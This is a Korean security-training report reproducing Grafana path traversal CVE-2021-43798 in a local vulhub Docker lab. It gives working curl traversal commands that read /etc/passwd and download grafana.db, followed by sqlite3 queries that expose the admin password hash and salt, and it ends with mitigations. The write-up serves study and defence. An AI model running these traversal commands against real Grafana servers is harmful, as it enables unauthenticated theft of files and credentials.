







# Grafana 8.x Plugin Path Traversal (CVE-2021-43798) 취약 환경 분석 보고서
> 화이트햇 스쿨 4기 - [김보규 (@Badtz-Maru-3)](https://github.com/Badtz-Maru-3)

## 1. 요약

Grafana 8.x의 플러그인 정적 파일 제공 기능에 경로 검증이 없어, **인증 없이 원격에서 `../` 경로 조작으로 서버의 임의 파일을 읽을 수 있는** 디렉터리 트래버설 취약점이다. 본 보고서는 vulhub 공식 환경(`vulhub/grafana:8.2.6`)을 Docker로 구축해 취약점을 재현하고, `/etc/passwd` 읽기부터 Grafana SQLite DB(`grafana.db`) 탈취 및 관리자 계정 자격증명 해시 노출까지 확인한 결과를 정리한다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2021-43798 |
| 취약점 유형 | Directory Traversal / Arbitrary File Read (CWE-22) |
| CVSS 3.1 | 7.5 (High), AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| 영향 버전 | Grafana 8.0.0-beta1 ~ 8.3.0 |
| 수정 버전 | 8.0.7, 8.1.8, 8.2.7, 8.3.1 |
| 인증 요구 | 불필요 (Unauthenticated) |

## 2. 분석

### 2.1 근본 원인
Grafana는 `/public/plugins/<plugin-id>/` 경로로 각 플러그인 폴더 내 정적 파일을 제공한다. 이때 요청 경로에 대한 정규화·검증이 없어, `../` 시퀀스로 플러그인 폴더를 벗어나 상위 디렉터리의 임의 파일에 접근할 수 있다.

### 2.2 전제 조건
- 인증 불필요
- 유효한 plugin id 1개 필요 (예: `alertlist`, `mysql`, `prometheus` 등 기본 탑재 플러그인)

### 2.3 CVSS 벡터 해설
- AV:N (네트워크 원격) / AC:L (낮은 복잡도) / PR:N (권한 불필요) / UI:N (사용자 상호작용 불필요)
- S:U (스코프 불변) / C:H (기밀성 높음) / I:N, A:N (무결성·가용성 영향 없음)
- 기밀성만 High인 것은 이 취약점이 "읽기 전용" 파일 노출이기 때문

### 2.4 저장 자격증명의 성격
Grafana는 사용자 비밀번호를 PBKDF2-HMAC-SHA256(10000 iterations)로 인코딩해 `user` 테이블의 `password` 컬럼에 저장하고, `salt`를 별도 컬럼에 보관한다. DB 탈취 시 salt와 해시가 함께 노출되므로 오프라인 사전 공격의 입력으로 사용될 수 있다.

## 3. 재현절차 (환경 구성)

```bash
# 1. vulhub 클론 후 해당 디렉터리 진입
git clone https://github.com/vulhub/vulhub.git
cd vulhub/grafana/CVE-2021-43798

# 2. 환경 기동 (vulhub/grafana:8.2.6, 포트 3000)
docker compose up -d

# 3. 기동 확인
docker ps
```

기동 확인 결과: `vulhub/grafana:8.2.6` 이미지, `0.0.0.0:3000->3000/tcp`, 컨테이너명 `cve-2021-43798-web-1`



브라우저 `http://localhost:3000` 접속 시 Grafana 로그인 페이지 표시, 하단 버전 `v8.2.6`



## 4. 실행결과 (PoC)

### 4.1 임의 파일 읽기 (/etc/passwd)
```bash
curl --path-as-is "http://localhost:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
```
결과: `/etc/passwd` 전체 반환, 셸 `/bin/ash`, `grafana:x:472:0:...` 확인



### 4.2 Grafana DB 탈취
```bash
curl --path-as-is -o grafana.db "http://localhost:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db"
```
결과: 644KB 다운로드 완료



### 4.3 DB 테이블 구조 확인
```bash
sqlite3 grafana.db ".tables"
```
결과: user, data_source, api_key, session 등 Grafana 스키마 확인



### 4.4 user 테이블 스키마 확인
```bash
sqlite3 grafana.db ".schema user"
```
결과: `password`, `salt`, `rands` 등 자격증명 관련 컬럼 확인



### 4.5 자격증명 해시 노출
```bash
sqlite3 grafana.db "SELECT id, login, email, password, salt, is_admin FROM user;"
```
결과: admin 계정(is_admin=1)의 password 해시 및 salt 노출 확인



```
1|admin|admin@localhost|ca212b6f...(중략)...a6ec4c3|ytWoIWsGAP|1
```

## 5. 대응방안

1. **버전 업그레이드**: Grafana 8.0.7 / 8.1.8 / 8.2.7 / 8.3.1 이상으로 업그레이드
2. **임시 완화**: 업그레이드 불가 시, 요청 PATH를 정규화하는 리버스 프록시 적용 (예: envoy `normalize_path`)
3. **사후 조치**: DB 노출이 의심되면 전 계정 비밀번호 재설정 및 API 키 회전 검토

## 6. 참고
- CVE: CVE-2021-43798
- 취약 환경: vulhub/grafana/CVE-2021-43798
- 대상 버전: Grafana 8.2.6
- Grafana 공식 Advisory: GHSA-8pjx-jj86-j47p